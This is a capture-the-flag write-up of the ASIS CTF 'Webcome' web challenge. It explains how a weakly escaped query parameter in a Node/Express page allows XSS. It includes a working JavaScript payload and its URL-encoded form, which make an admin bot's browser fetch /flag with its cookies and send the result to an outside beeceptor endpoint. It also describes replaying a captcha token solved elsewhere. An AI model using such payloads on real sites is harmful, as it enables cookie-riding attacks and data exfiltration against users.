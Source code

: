 # Webcome


## Description
Welcome! I made a [website](http://65.21.255.24:5000/).

Download the source code from [here](https://asisctf.com/tasks/welcome_697082013f8f7b6f0ed025f77272fc65082eb3dc.txz).

## Write UP

In this challenge, the goal is to visit `/flag` route with a
secret cookie after solving a captcha. The webiste also has a `/report` path which you can make the server visit a website in the backend. Analyzing the code, we encountered some interesting parts in the homepage code:

```javascript
app.get('/',(req,res)=>{
	var msg = req.query.msg
	if(!msg) msg = `Yo you want the flag? solve the captcha and click submit.\\nbtw you can't have the flag if you don't have the secret cookie!`
	msg = msg.toString().toLowerCase().replace(/\'/g,'\\\'').replace('/script','\\/script')
	res.send(indexHtml.replace('$MSG$',msg))
})
```
In case a query parameter exists, after some naive sanitization it is replaces in place of `$MSG$` in the `index.html` file:
```html
<script>
    msg.innerText = '$MSG$';
</script>
```
So our initial guess is to perform some XSS attack.


### Failed Attempts
1. First we tried to somehow gain access to the secret cookie which is set with the following code:
```javascript
await page.setCookie({
		name: 'secret_token',
		value: secretToken,
		domain: challDomain,
		httpOnly: true,
		secret: false,
		sameSite: 'Lax'
	})
```
But the security niceties are well observed and it seems like it is not possible to maliciously get the cookie.

2. We encountered this line in the code:
```javascript
app.use(bodyParser.urlencoded({ extended: true }));
```
which simply allows the user to pass advanced formatted queries which may be useful in bypassing some security measurments if not applied cautiously. But we could not get much use of it. (We were thinking of ways to somehow bypass `msg` query sanitizations, or even manipulating the captcha verification process by crafting a special value for `g-recaptcha-response` which gets passed to `/flag` path and is used to authenticate the solved captcha).

### Solution
Our solution was to craft a specific url that contains a script which makes the backend browser (that has the secret cookie) to visit the `/flag` path and sending the flag to our endpoint API, but first we had to bypass the captcha.

#### Bypassing ReCaptcha
We first tried to reconstruct the captcha on our end by getting its required parameters from the backend server. After some investigation it turned out to be too advanced so we dumped the idea.

Our final workaround was to solve a captcha on our end and capture its `g-recaptcha-response` before reaching the server and send it to our script hoping it would work which it turned out to do :))

The script that we used was the following:
```javascript
headers = {method: "GET"};
let data = "g-recaptcha-response=";
fetch(url = `https://larmol.free.beeceptor.com/`, headers = headers).then(async response => {
    let t = await response.text();
    data = data.concat(t);
    headers = {
        method: "POST",
        body: data,
        headers: {"Content-Type": "application/x-www-form-urlencoded"},
        credentials: "include"
    };
    fetch(url = `http://65.21.255.24:5000/flag`, headers).then(async response => {
        headers = {method: "GET"};
        let t = await response.text();
        fetch(url = `https://larmol.free.beeceptor.com/${t}`, headers)
    });
});
```
This script does the following steps:

1. Gets the `g-recaptcha-response` from an endpoint which we created providing it with our solved captcha.
2. Creates a request containing `g-recaptcha-response` parameter and sends it to the `/flag` route obtaining the flag.
3. Sends the flag to our endpoint in the url (we could have sent it way better but we were too tired ^__^)

We needed to encode our script in the url. Our final crafted url was this:
```
http://65.21.255.24:5000/?msg=%5C';headers=%7Bmethod:%22GET%22%7D;let%20data%20=%20%22g-recaptcha-response=%22;fetch(url=%60https://larmol.free.beeceptor.com/%60,%20headers=headers).then(async%20response%20=%3E%20%7Blet%20t=await%20response.text();data%20=%20data.concat(t);headers%20=%20%7Bmethod:%22POST%22,body:%20data,headers:%20%7B%22Content-Type%22:%20%22application/x-www-form-urlencoded%22%7D,credentials:%20%22include%22%7D;fetch(url=%60http://65.21.255.24:5000/flag%60,%20headers).then(async%20response%20=%3E%20%7Bheaders=%7Bmethod:%22GET%22%7D;let%20t%20=%20await%20response.text();fetch(url=%60https://larmol.free.beeceptor.com/$%7Bt%7D%60,%20headers)%7D);%7D);//
```

We had to add `\\';` and `//` to the beginning and end of our query respectively to escape from the naive filtering mentioned and to get our script out of the `'$MSG$'` quotes in order to get it running.

Submitting the url we get the flag on our endpoint:
```
ASIS{welcomeeeeee-to-asisctf-and-merry-christmas}
```
